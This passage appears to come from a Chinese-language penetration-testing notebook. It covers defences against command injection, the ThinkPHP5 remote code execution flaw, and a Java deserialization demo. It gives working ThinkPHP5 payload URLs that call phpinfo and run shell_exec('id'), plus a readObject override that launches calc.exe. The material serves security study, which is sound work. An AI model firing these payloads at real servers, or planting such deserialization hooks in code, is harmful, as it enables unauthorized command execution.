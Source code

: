 ## 防御方法

- 禁止执行外部应用程序或命令
- 使用escapeshellarg，escapeshellcmd函数处理参数
- 使用safe_modeexec_dir指定可执行的文件路径

# thinkphp5远程命令执行

thinkphp底层没有对控制器名进行严格的合法性校验，，导致在网站没有开启强制路由的情况下，用户可以调用任意类的任意方法，最终导致命令执行。`index.php?s=index/\namespace\class/method`会实例化\namespace\class类并执行method方法。

- 利用index模块、\think\app控制器、同时利用invokefunction方法去反射调用call_user_func_array函数。使用的参数：`function=call_user_func_array`，`vars[0]=phpinfo`，`vars[1][]=-1`，可回显phpinfo。payload：`index.php?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=-1`。
- 利用index模块、\think\app控制器、同时利用invokefunction方法去反射调用call_user_func_array函数。使用的参数：`function=call_user_func_array`，`vars[0]=shell_exec`，`vars[1][]=id`，可回显id命令。payload：`index.php?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]=id`

![thinkphp5.xrec](https://raw.githubusercontent.com/king-notfound404/Penetration-Zbook/main/img/thinkphp5.xrec.png)

# java反序列化

## Java序列号和反序列化demo

window中运行

```java
import java.io.*;

public class JavaSerializeExample{
    public static void main(String[] args) throws Exception{
        //定义myObj对象
        MyObject myobj = new MyObject();
        myobj.name="test";
        //创建一个包含对象进行序列化信息的object.ser数据文件
        ObjectOutputStream os = new ObjectOutputStream(new FileOutputStream("name:" + "object.ser"));
        //writeObject()方法将myObject对象写入object.ser文件
        os.writeObject(myobj);
        os.close();
        //从object.ser文件中反序列化对象
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream("name:" + "object.ser"));
        //通过readObject()方法读取对象
        MyObject objectFromDisk=(MyObject)ois.readObject();
        System.out.println(objectFromDisk.name);
        ois.close();
    }
}
class MyObject implements Serializable{
    public String name;
    //重写readObject()方法
    private void readObject(ObjectInputStream in) throws IOException, ClassNotFoundException {
        in.defaultReadObject();
        Runtime.getRuntime().exec("calc.exe");
    }
}
```
